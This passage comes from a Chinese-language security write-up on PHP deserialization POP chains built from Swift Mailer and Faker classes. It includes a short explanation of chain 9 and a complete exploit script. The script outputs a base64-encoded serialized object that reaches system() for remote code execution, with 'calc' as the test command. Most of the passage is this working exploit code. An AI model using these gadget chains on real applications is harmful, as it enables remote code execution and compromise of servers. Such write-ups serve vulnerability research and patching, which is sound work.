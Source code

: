 ```php
        private $path;
        private $keys = ['H3rmesk1t' => ['H3rmesk1t' => 'H3rmesk1t']];
        public function __construct($payload) {
            $this->path = new DefinedTargetClass($payload);
        }
    }
    echo base64_encode(serialize(new Swift_KeyCache_DiskKeyCache("calc")));
}
?>
```
### POP链利用流程图

![undefined](https://p3.ssl.qhimg.com/t01d3043fe36903dc33.png "undefined")

## POP链-9
起始点和终点的利用链和`POP链-8`一样，将`__toString()`的触发点变一下，跟进`lib/classes/Swift/Mime/SimpleMimeEntity.php`中的`__toString()`方法，其调用了`toString()`方法，由于`$this->_headers`是可控的，因此可以接上上一条链子的`__call()`方法利用进行 RCE 操作

![undefined](https://p5.ssl.qhimg.com/t0159a7d1c51ac10591.png "undefined")

### exp
```php
<?php 
namespace Faker {
    class DefaultGenerator {
        protected $default;
        public function __construct($payload) {
            $this->default = $payload;
        }
    }
    class ValidGenerator {
        protected $generator;
        protected $validator;
        protected $maxRetries;
        public function __construct($payload) {
            $this->generator = new DefaultGenerator($payload);
            $this->validator = "system";
            $this->maxRetries = 1; // 不设置值的话默认是重复10000次
        }
    }
}

namespace {
    use Faker\ValidGenerator;
    class Swift_Mime_SimpleMimeEntity {
        private $headers;
        public function __construct($payload) {
            $this->headers = new ValidGenerator($payload);
        }
    }
    class Swift_KeyCache_DiskKeyCache {
        private $path;
        private $keys = ['H3rmesk1t' => ['H3rmesk1t' => 'H3rmesk1t']];
        public function __construct($payload) {
            $this->path = new Swift_Mime_SimpleMimeEntity($payload);
        }
    }
    echo base64_encode(serialize(new Swift_KeyCache_DiskKeyCache("calc")));
}
?>
```